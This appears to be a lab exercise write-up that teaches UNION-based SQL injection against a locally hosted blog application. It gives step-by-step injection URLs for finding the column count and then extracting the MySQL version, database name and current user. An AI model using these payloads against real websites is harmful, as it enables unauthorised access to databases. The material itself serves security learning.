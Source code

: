 # (b) Get database version, name and user

For getting database version you need to be able to get information out throuth the Web interface.
To do that you have to use the **UNION** statement of MySQL. But *there is a catch**: the UNION statement requieres that the number of columns in the first query to be the same that in the second query.
So you first have to identify the number of columns of a single post.
Watching the post is the first aproach for that. You can see for example tha the post title is a column, and others might be:
- creation date,
- user avatar,
- user name,
- post title,
- post body,
- the tags of the post.

At least 7 columns.
Then we can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7/slug-name-post'
```

And we get this error for response:
```javascript
{
  "status": "Error",
  "message": "ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT: The used SELECT statements have a different number of columns"
}
```

This error indicate that the number of columns is not correct. So we keep adding numbers until we stop getting this erros

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7,8,9,10/slug-name-post'
```

We can see that the right number of columns is 10. Great! 

You should see the numbers, most of them al least in de screen somewhere.

Ok, now for the **engine version** just replace one of the number with a query, like this, assuming that the number two is being shown:

```shell
http://localhost:8080/p/2 UNION SELECT 1,version(),3,4,5,6,7,8,9,10/slug-name-post'
```

For the **database name** just replace one of the number with another query, like this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,database(),3,4,5,6,7,8,9,10/slug-name-post'
```

And finally, for the **user** you can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,user(),3,4,5,6,7,8,9,10/slug-name-post'
```

Finally, a little trick to display de information in a cleaner screen is to change the post number for another that does not exist, may be -1 or 10000, like this:

```shell
http://localhost:8080/p/-1 UNION SELECT 1,2,3,4,5,6,7,8,9,10/slug-name-post'
```

This way all you get is the data you want.
